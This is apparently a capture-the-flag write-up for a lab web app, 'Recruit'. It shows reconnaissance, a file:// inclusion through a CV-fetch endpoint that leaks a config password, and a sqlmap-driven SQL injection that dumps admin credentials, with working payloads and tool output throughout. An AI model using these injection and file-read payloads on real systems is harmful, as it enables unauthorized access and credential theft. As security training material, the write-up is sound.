






## Scenario

> Recruit has just launched its new recruitment portal, allowing HR staff to manage candidate applications and administrators to oversee hiring decisions. While the platform appears functional, management suspects that security may have been overlooked during development. Your task is to assess the application like a real attacker, mapping its structure, abusing exposed functionality, and exploiting vulnerabilities.
> 
> Can you gain an initial foothold, escalate your access, and ultimately log in as the administrator?

Access via: `10.113.172.15`



## Reconnaissance

### Landing Page and API Documentation

The landing page was a plain login form for the recruitment portal, with an "Access API" link underneath it. Following that link redirected me to `api.php`, which laid out a short FAQ for the application's API:

```text
What is the Recruit API used for?
The Recruit API is used internally to fetch and process candidate CVs from external sources during the recruitment process.

How can I fetch a candidate CV using the following endpoint?
You can fetch a candidate CV using the following endpoint:
/file.php?cv=<URL>

What kinds of URLs are supported?
The API supports fetching CVs from external URLs such as HTTP and HTTPS.

Are there any security restrictions?
Requests targeting restricted locations may be blocked by the API.
```

This pointed at `file.php?cv=<URL>` as a CV-fetching endpoint, so my working theory from this point was that the application might be vulnerable to some form of file inclusion. I checked the page source for both the login page and `api.php`, but neither contained anything useful.

### Technology Fingerprinting

I ran Wappalyzer against the site to get a read on the stack.



This showed Apache HTTP Server 2.4.41 on Ubuntu, PHP, and Bootstrap 5.3.2 for the front end. There was no `robots.txt`.

### Port Scanning

I ran a full TCP port scan to see what was listening across the whole range.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.113.172.15 -p- -T4
[sudo] password for —REDACTED—:
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-23 16:03 +0200
Nmap scan report for 10.113.172.15
Host is up (0.038s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 19.48 seconds
```

This confirmed three open ports: SSH, DNS and HTTP. I followed up with a version and script scan against just those three.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.113.172.15 -p22,53,80 -sV -sC
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-23 16:04 +0200
Nmap scan report for 10.113.172.15
Host is up (0.035s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 93:b2:47:55:11:73:0c:32:f0:71:8d:79:22:d1:d6:af (RSA)
|   256 90:6b:4a:48:d0:ef:0a:c3:b1:07:91:dd:95:28:fd:e5 (ECDSA)
|_  256 2d:2d:ec:20:2b:60:df:d9:ac:49:b4:2c:b9:e1:dc:6b (ED25519)
53/tcp open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.16.1-Ubuntu
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Recruit
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.62 seconds
```

Nothing jumped out beyond the service versions, aside from the `PHPSESSID` cookie missing the `httponly` flag.

### Directory and File Enumeration

I ran feroxbuster against the web root to look for hidden paths and files.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ feroxbuster -u 'http://10.113.172.15/' -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.113.172.15/
 🚩  In-Scope Url          │ 10.113.172.15
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      278c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      275c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET     2078l    10308w    98180c http://10.113.172.15/assets/bootstrap-icons.css
200      GET        6l     2272w   220780c http://10.113.172.15/assets/bootstrap.min.css
200      GET      498l     3021w   236461c http://10.113.172.15/assets/bootstrap-icons.woff2
200      GET    10993l    45090w   293671c http://10.113.172.15/assets/jquery-3.6.3.js
301      GET        9l       28w      313c http://10.113.172.15/mail => http://10.113.172.15/mail/
200      GET       38l      180w     1680c http://10.113.172.15/mail/mail.log
301      GET        9l       28w      315c http://10.113.172.15/assets => http://10.113.172.15/assets/
301      GET        9l       28w      319c http://10.113.172.15/javascript => http://10.113.172.15/javascript/
200      GET      107l      258w     4151c http://10.113.172.15/api.php
200      GET       48l       89w     1417c http://10.113.172.15/
200      GET       14l       19w      173c http://10.113.172.15/assets/styles.css
200      GET        7l     1210w    80599c http://10.113.172.15/assets/bootstrap.bundle.min.js
200      GET        1l      243w    12646c http://10.113.172.15/assets/core.js
200      GET      703l     3756w   321347c http://10.113.172.15/assets/bootstrap-icons.woff
301      GET        9l       28w      319c http://10.113.172.15/phpmyadmin => http://10.113.172.15/phpmyadmin/
301      GET        9l       28w      323c http://10.113.172.15/phpmyadmin/doc => http://10.113.172.15/phpmyadmin/doc/
301      GET        9l       28w      322c http://10.113.172.15/phpmyadmin/js => http://10.113.172.15/phpmyadmin/js/
301      GET        9l       28w      326c http://10.113.172.15/phpmyadmin/themes => http://10.113.172.15/phpmyadmin/themes/
301      GET        9l       28w      328c http://10.113.172.15/phpmyadmin/doc/html => http://10.113.172.15/phpmyadmin/doc/html/
301      GET        9l       28w      323c http://10.113.172.15/phpmyadmin/sql => http://10.113.172.15/phpmyadmin/sql/
301      GET        9l       28w      329c http://10.113.172.15/phpmyadmin/js/vendor => http://10.113.172.15/phpmyadmin/js/vendor/
301      GET        9l       28w      326c http://10.113.172.15/phpmyadmin/locale => http://10.113.172.15/phpmyadmin/locale/
301      GET        9l       28w      335c http://10.113.172.15/phpmyadmin/themes/original => http://10.113.172.15/phpmyadmin/themes/original/
301      GET        9l       28w      336c http://10.113.172.15/phpmyadmin/doc/html/_images => http://10.113.172.15/phpmyadmin/doc/html/_images/
301      GET        9l       28w      339c http://10.113.172.15/phpmyadmin/themes/original/css => http://10.113.172.15/phpmyadmin/themes/original/css/

—SNIP—
[#>------------------] - 2m    477224/9263071 13m     found:57      errors:225095
[###>----------------] - 2m     42666/220545  463/s   http://10.113.172.15/
[####################] - 6s    220545/220545  37907/s http://10.113.172.15/assets/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 0s    220545/220545  3063125/s http://10.113.172.15/mail/ => Directory listing (add --scan-dir-listings to scan)
[###>----------------] - 88s    40790/220545  463/s   http://10.113.172.15/javascript/
[####################] - 0s    220545/220545  2423571/s http://10.113.172.15/assets/bootstrap-icons/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 1s    220545/220545  156637/s http://10.113.172.15/assets/bootstrap-icons/fonts/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 0s    220545/220545  3106268/s http://10.113.172.15/assets/bootstrap-icons/css/ => Directory listing (add --scan-dir-listings to scan)
```

This turned up a `/mail/` path with an exposed `mail.log` file fairly quickly, a `/phpmyadmin/` install, and flagged several paths, including `/mail/` and `/assets/`, as having directory listing enabled.

## Initial Foothold — Disclosure to Local File Inclusion

I went to `/mail/` directly and confirmed the directory listing.



Opening `mail.log` gave me the full Postfix delivery log plus the body of an internal email:

```text
May 14 09:32:11 recruit-server postfix/smtpd[2143]: connect from hr-workstation.local[10.10.5.23]
May 14 09:32:12 recruit-server postfix/smtpd[2143]: 4F1A2203F: client=hr-workstation.local[10.10.5.23]
May 14 09:32:13 recruit-server postfix/cleanup[2146]: 4F1A2203F: message-id=<20240514093213.4F1A2203F@recruit.local>
May 14 09:32:13 recruit-server postfix/qmgr[1789]: 4F1A2203F: from=<hr@recruit.thm>, size=1824, nrcpt=1 (queue active)
May 14 09:32:14 recruit-server postfix/local[2151]: 4F1A2203F: to=<it-support@recruit.local>, relay=local, delay=0.34, status=sent

------------------------------------------------------------
From: HR Team <hr@recruit.thm>
To: IT Support <it-support@recruit.thm>
Date: Tue, 14 May 2024 09:32:10 +0000
Subject: Recruitment Portal Deployment Confirmation

Hi Team,

Just a quick update to confirm that the new Recruitment Portal
has been deployed successfully and is functioning as expected.

We’ve completed basic validation:
- Login page is accessible
- Candidate dashboard loads correctly
- API documentation page is live

As discussed during deployment:
- HR login credentials (username: hr) are currently stored in the application
  configuration file (config.php) for ease of access during
  the initial rollout phase.
- Administrator credentials are NOT stored in the application
  files and are securely maintained within the backend database.

Please let us know if there are any issues or if further changes
are required.

Thanks,
HR Operations
Recruitment Team
------------------------------------------------------------

May 14 09:32:14 recruit-server postfix/qmgr[1789]: 4F1A2203F: removed
```

This gave me two things: the HR username, `hr`, and a pointer to where its password lived, `config.php` on the server. That lined up with my earlier theory about `file.php?cv=<URL>` supporting file inclusion, so I tried pulling the config file through it with a `file://` wrapper instead of an HTTP URL.

```text
http://10.113.172.15/file.php?cv=file:///var/www/html/config.php
```

This worked, and returned the raw source of `config.php`:

```php
<?php

/*
|--------------------------------------------------------------------------
| Application Configuration
|--------------------------------------------------------------------------
*/

$APP_NAME        = 'Recruit';
$APP_ENV         = 'production';
$APP_VERSION     = '1.2.4';
$APP_DEBUG       = false;

/*
|--------------------------------------------------------------------------
| HR Credentials (Temporary – Initial Rollout Phase)
|--------------------------------------------------------------------------
| NOTE:
| These credentials are stored here temporarily for ease of access
| during the initial deployment and will be moved to the database
| in a future release.
*/

$HR_PASSWORD = 'hrpassword123';

/*
|--------------------------------------------------------------------------
| API Configuration
|--------------------------------------------------------------------------
*/

$API_ENABLED     = true;
$API_VERSION     = 'v1';


?>
```

That gave me the HR password, `hrpassword123`, to go with the `hr` username from the mail log. I logged in with those credentials and got straight into the dashboard, where the normal-user flag was sitting at the top of the page.

> What is the flag value after logging in as a normal user?

**Answer:** `—REDACTED—`

## Privilege Escalation — SQL Injection

With the HR account logged in, I looked at the dashboard's search bar. The page source had nothing useful, so I tried typing `Alice` into the search field, which reflected into the URL as a `search` parameter and returned a filtered row for Alice Johnson.

```text
http://10.113.172.15/dashboard.php?search=Alice
```

Given the earlier LFI via `file.php`, I tried a path traversal payload in the same search field.

```text
http://10.113.172.15/dashboard.php?search=../../../../../etc/hosts
```



This came back with no results and no file content. 

After some more unfruitful attempts. I moved on to a basic SQL injection probe instead, entering `alice' OR 1=1` into the search field.



That returned a raw MySQL syntax error, confirming the `search` parameter was injectable. I handed it off to sqlmap to confirm and enumerate.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sqlmap 'http://10.113.172.15/dashboard.php?search=alice*'  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en-GB,ja;q=0.9' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Sec-GPC: 1' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://10.113.172.15/dashboard.php?search=alice%27+OR+1%3D1' \
  -H 'Cookie: PHPSESSID=9chaok4s4orm3llbaedrrbvqnr' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Priority: u=0, i' --batch --dump
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.10.10#stable}
|_ -| . ["]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 16:27:27 /2026-11-23/

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] Y
[16:27:27] [INFO] testing connection to the target URL
[16:27:27] [INFO] checking if the target is protected by some kind of WAF/IPS
[16:27:27] [INFO] testing if the target URL content is stable
[16:27:28] [INFO] target URL content is stable
[16:27:28] [INFO] testing if URI parameter '#1*' is dynamic
[16:27:28] [INFO] URI parameter '#1*' appears to be dynamic
[16:27:28] [INFO] heuristic (basic) test shows that URI parameter '#1*' might be SQL injectable (possible DBMS: 'MySQL')
[16:27:28] [INFO] testing for SQL injection on URI parameter '#1*'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[16:27:28] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[16:27:28] [WARNING] reflective value(s) found and filtering out
[16:27:28] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[16:27:28] [INFO] testing 'Generic inline queries'
[16:27:28] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[16:27:29] [INFO] URI parameter '#1*' appears to be 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)' injectable (with --string="Alice")
[16:27:29] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[16:27:29] [INFO] URI parameter '#1*' is 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)' injectable
[16:27:29] [INFO] testing 'MySQL inline queries'
[16:27:29] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[16:27:29] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[16:27:29] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[16:27:29] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[16:27:30] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[16:27:30] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[16:27:30] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[16:27:40] [INFO] URI parameter '#1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
[16:27:40] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[16:27:40] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[16:27:40] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[16:27:40] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[16:27:40] [INFO] target URL appears to have 4 columns in query
[16:27:40] [INFO] URI parameter '#1*' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 55 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: http://10.113.172.15/dashboard.php?search=alice%' AND 6469=6469#

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: http://10.113.172.15/dashboard.php?search=alice%' AND GTID_SUBSET(CONCAT(0x71767a7671,(SELECT (ELT(5366=5366,1))),0x71627a6b71),5366) AND 'fxlE%'='fxlE

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://10.113.172.15/dashboard.php?search=alice%' AND (SELECT 4222 FROM (SELECT(!SLEEP(5)))Wihf) AND 'xgqC%'='xgqC

    Type: UNION query
    Title: MySQL UNION query (NULL) - 4 columns
    Payload: http://10.113.172.15/dashboard.php?search=alice%' UNION ALL SELECT CONVERT(CONCAT(0x71767a7671,0x52505a644f615577497163434a4448747248474f5076575541696e676e6541666173416e7048416c,0x71627a6b71) USING utf8mb4) COLLATE utf8mb4_bin,NULL,NULL,NULL#
---
[16:27:40] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 19.10 or 20.04 or 20.10 (focal or eoan)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.6
[16:27:41] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[16:27:41] [INFO] fetching current database
[16:27:41] [INFO] fetching tables for database: 'recruit_db'
[16:27:41] [INFO] fetching columns for table 'candidates' in database 'recruit_db'
[16:27:41] [INFO] fetching entries for table 'candidates' in database 'recruit_db'
Database: recruit_db
Table: candidates
[4 entries]
+----+---------------+--------------+--------------------+
| id | name          | status       | position           |
+----+---------------+--------------+--------------------+
| 1  | Alice Johnson | Approved     | Frontend Developer |
| 2  | Bob Smith     | Under Review | Backend Developer  |
| 3  | Charlie Brown | Rejected     | Security Analyst   |
| 4  | Diana Prince  | Selected     | HR Executive       |
+----+---------------+--------------+--------------------+

[16:27:41] [INFO] table 'recruit_db.candidates' dumped to CSV file '/home/—REDACTED—/.local/share/sqlmap/output/10.113.172.15/dump/recruit_db/candidates.csv'
[16:27:41] [INFO] fetching columns for table 'users' in database 'recruit_db'
[16:27:41] [INFO] fetching entries for table 'users' in database 'recruit_db'
Database: recruit_db
Table: users
[1 entry]
+----+----------------+----------+
| id | password       | username |
+----+----------------+----------+
| 1  | admin@001admin | admin    |
+----+----------------+----------+

[16:27:41] [INFO] table 'recruit_db.users' dumped to CSV file '/home/—REDACTED—/.local/share/sqlmap/output/10.113.172.15/dump/recruit_db/users.csv'
[16:27:41] [INFO] fetched data logged to text files under '/home/—REDACTED—/.local/share/sqlmap/output/10.113.172.15'

[*] ending @ 16:27:41 /2026-11-23/
```

sqlmap confirmed boolean-based, error-based, time-based and UNION-based injection on the `search` parameter, identified the back-end as MySQL, and dumped the `recruit_db` database. Alongside the `candidates` table, it pulled the `users` table, which held a single row: `admin` / `admin@001admin`.

I logged out of the HR account and logged back in with those admin credentials.



The admin dashboard showed the same candidate table as before, but now with an "Action" column giving Approve/Reject controls on each row, and the second flag at the top of the page.

### What is the flag value after logging in as admin?

**Answer:** `—REDACTED—`